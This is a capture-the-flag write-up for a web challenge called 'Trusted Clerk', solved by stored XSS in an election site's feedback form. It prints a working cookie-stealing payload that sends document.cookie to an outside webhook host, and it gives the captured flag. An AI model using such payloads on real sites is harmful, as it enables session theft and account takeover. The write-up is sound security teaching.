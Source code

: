 ```yaml
---
layout: writeup
title: Trusted Clerk
tags: WebX
---
```


## Description

The national elections in Freedonia have officially begun. In the spirit of transparency and continuous improvement, the Ministry of Electoral Integrity has launched a new early voting portal. Citizens are encouraged not only to cast their vote - but also to leave anonymous feedback about their voting experience.

“Your voice matters twice - once for your candidate, and once for your country.”

http://redac.ted:9002/


## Solution

The link takes you to a pretty small website with a `Home` page, `About` page, `Contact` page, and a `Vote` page. The `Vote` page looks the most promosing as it has a form on it that sends a request to the backend server.

![Photo of the `Vote` page which shows the form with its fields of `candidate` and `feedback`](/assets/images/writeups_images/Trusted-Clerk/1.png)

This form seems to send back the two data points `candidate` and `feedback`

This is likely the feedback that the description hints at, and the description hints that the feedback will be read at somepoint.

This seems like a pretty basic XSS attack. We send the service feedback that contains malicous code that swipes their cookies.

For something like this I suggest using [Pipedream](pipedream.com). This service allows you to create `web hooks` in your workflows that you can then query, and see all traffic towards them. It helps in situations like this, when you need to have the client send their cookies remotely to your pipedream `webhook`

So time to create a payload. I went with the pretty standard image on error load approach.

```html
<img src="e" onerror="window.location.href = 'https://eo6fu53ufvqhqft.m.pipedream.net/' + document.cookie;">
```

If you are attempting to do this yourself, you will need to change the url to the url of your workflow, as this one was associated with my individual workflow.

So just inputing the payload into the `feedback` section of the form and waiting a few minutes returns this in my workflow request history:

![Photo of my pipedream workflow request history showing the request with the flag in it](/assets/images/writeups_images/Trusted-Clerk/2.png)

The exact link this goes to is

```text
https://eo6fu53ufvqhqft.m.pipedream.net/flag=secedu%7Bspr1nkle_s0me_http0nly_0n_y0ur_ch0colate_ch1p_c0oki3%7D
```

As you can see this has the cookie called `flag`, the value of this `flag` cookie is the flag for the challenge in URL encoding. So the flag is `secedu{spr1nkle_s0me_http0nly_0n_y0ur_ch0colate_ch1p_c0oki3}`
